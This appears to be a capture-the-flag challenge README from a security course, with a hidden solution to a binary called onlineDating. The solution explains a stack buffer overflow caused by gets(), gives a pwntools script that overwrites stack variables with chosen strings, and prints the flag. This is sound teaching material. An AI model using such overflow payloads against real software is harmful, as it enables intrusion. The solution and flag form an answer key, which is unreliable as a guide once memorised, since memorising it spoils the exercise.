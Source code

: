 # onlineDate

### 📄 Description
What about updating your profile information?

### ⚙ How to run
```bash
./onlineDating
```

### ⛔ Rules
- Do not patch this binary.
- Do not modify or delete the `flag.txt` file.
- You MUST solve the challenge by providing valid inputs.
- You CANNOT just jump with the debugger to any function that directly prints the flag.
- If you think you're breaking these rules with your solution, please ask the teachers.

<details>
    <summary>
        <h2>🔑 Solution</h2>
    </summary>

We have a trivial buffer overflow vulnerability, we just need to overwrite some stack variables with the correct values.
The input length isn't checked due to the use of `gets()` for handling user input, the target buffer is 56 bytes long, its content aren't checked against anything so we can just fill it with `A`s.
The only important thing here is overwriting the variables with the correct value and in the correct order (that's easily checked by looking at the variables position in the stack).

```python
from pwn import *

payload = b'A'* 56 + b'Gerard_Pique' + b'Clara_C.' + b'TwingoOo' + b'CasioOo!'

r = process('./onlineDating')
r.sendlineafter(b'Please tell us how to update it (max 50 char):', payload)
r.interactive()
```

<h3> 🚩 Flag </h3>

```plain
SPRITZ{Cr4zy_DuD3}
```
</details>
